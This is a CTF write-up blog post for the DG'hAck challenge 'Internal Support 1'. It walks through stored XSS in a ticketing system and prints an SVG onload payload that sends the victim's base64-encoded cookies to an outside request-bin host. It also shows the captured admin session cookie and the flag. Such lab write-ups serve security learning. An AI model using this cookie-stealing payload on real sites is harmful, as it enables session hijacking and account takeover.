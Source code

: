 ```yaml
---
title: "Writeup DG'hAck: Internal Support 1"
date: 2020-11-19T03:19:55+01:00
draft: false
tags: ["blog", "security", "ctf", "dghack"]
type: "posts"
showDate: true
---
```


The challenge presents itself as a ticketing system. After registering for an account, we are greeted with this page :

[![The ticketing system](/assets/dghack/internal-support-1.png)](/assets/dghack/internal-support-1.png)

Trying a classic xss (`<script>alert(1)</script>`) in the message field seems to work. We know that we have to login as an admin user, so let's try stealing the cookies :

```html
<svg onload="document.body.innerHTML=document.body.innerHTML.concat('<img src=\'https://eni7j9jobszxl.x.pipedream.net/'.concat(btoa(document.cookie)).concat('\' />'))" />
```

After a few seconds, we get a request on our [request bin](https://requestbin.com/), which when decoded gives us the admin cookie :

```
session=.eJwlTstqwzAQ_BWhcyh67UryV_RegllJu7GpGxfLOYX8exV6GubBzDz1LBv1hbuevp5anQP0D_dON9YX_bkxdVbbflPrXZ27olqHqc5l7ep3ZD709XW9jJKD-6Kn83jwYGvTk84VfCkhQ7NoI7GLVhJF8hhNDcEEtFnQCOWYoIENURoKtoQ1coiGjA8sAi65VFMBahElo1gStozZZxYKxgGERpliDNYTChQoBkuDcX9-dD7-39hBaz9kPvdvvg-hgpTkjBPyb_RUGZhqhOxbDqW9h5EI9OsP9hJWpw.X7XZVw.vQUecnJN2gaDUDDYuPeB5LNZbbg
```

Logging in using that cookie reveals this todo-list :

[![The admin's todo list](/assets/dghack/internal-support-1-todo.png)](/assets/dghack/internal-support-1-todo.png)

Which contains the flag: `NoUserValidationIsADangerousPractice`.

---

[View all of the DG'hAck articles](/tags/dghack).
